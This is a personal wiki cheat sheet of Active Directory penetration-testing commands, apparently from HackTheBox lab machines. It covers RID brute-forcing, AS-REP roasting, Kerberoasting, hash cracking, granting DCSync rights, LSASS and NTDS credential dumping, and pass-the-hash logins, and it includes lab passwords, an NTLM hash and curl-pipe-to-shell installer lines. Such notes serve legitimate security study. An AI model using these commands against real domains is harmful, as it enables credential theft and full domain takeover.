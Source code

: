 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Active Directory Enumeration
[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)

**Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
```
nxc smb 10.10.10.192 -u 'guest' -p '' --rid-brute > sid.txt
cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/BLACKFIELD\\//' > users.txt
GetNPUsers.py BLACKFIELD/ -usersfile users.txt -format hashcat
hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
```

[LDAPSearch Cheat Sheet](https://notes.benheater.com/books/active-directory/page/ldapsearch)
```
Domain Contexts: ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts
Search Users: ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)'
```

[LDAP Domain Dump via Linux](https://github.com/dirkjanm/ldapdomaindump)

Useful if Bloodhound.py isn't working as intended.

[BloodHound CE](https://github.com/SpecterOps/BloodHound)

**Installation via Docker:** [BloodHound Community Edition](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose)
```
curl -L https://ghst.ly/getbhce | docker compose -f - up
```

[BloodHound.py for Linux](https://github.com/dirkjanm/BloodHound.py)
```
python3 bloodhound.py -u "support" -p "#00^BlackKnight" -c ALL -d BLACKFIELD.local -ns 10.10.10.192 -dc dc01.BLACKFIELD.local
```

# Active Directory Exploitation Strategies
[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)

[WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)

[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)

[NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)

[DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
**With PowerView**:
```
whoami /all
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
net group "Exchange Windows Permissions" /add svc-alfresco
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
Get-DomainUser -Identity svc-alfresco
Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
```

[SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)
gppdecrypt

[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

**Requires:** Domain Credentials

**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets

`GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100`

## Lateral Movement
[ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

**Requires:** `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` on Object

```
net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)
```

## Credential Dumping
[LSASS Dump - lsass.DMP](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)

**Requires:** Credential Guard to be disabled.

```
Dumping LSASS via Linux: https://medium.com/@offsecdeer/dumping-lsass-remotely-from-linux-efc47391e56d
```

[Pypykatz - Mimikatz for Linux](https://github.com/skelsec/pypykatz)

**Requires:** A DMP file containing credentials extracted to our Linux machine.
```
pypykatz lsa minidump lsass.DMP
```

## Domain Escalation
[Backup Operator - Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)
```
whoami /all (SeBackupPrivilege Enabled)

diskshadow /s backup.txt
robocopy /b E:\Windows\ntds . ntds.dit (NTDS file)
reg save hklm\system c:\temp\system.bak (System Hive keys)

## Other Resources
https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58
```

-----------------------------------------------------------------------

## Active Directory Tools
[NetExec](https://github.com/Pennyw0rth/NetExec)
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh (install Rust)
source $HOME/.cargo/env
pipx install git+https://github.com/Pennyw0rth/NetExec
```

[PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
```. .\powerview.ps1```

**NSE**
```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```

**SMB**
Enum4Linux
SMBMap
smbclient
smbclient.py (Impacket)
[NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)
[SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)

**WinRM**
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
```
evil-winrm -i 10.10.10.192 -u "svc_backup" -H "9658d1d1dcd9250115e2205d9f48400d"
```

[Impacket]()
```
python3 -m pipx install impacket
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
```

## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
 - [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
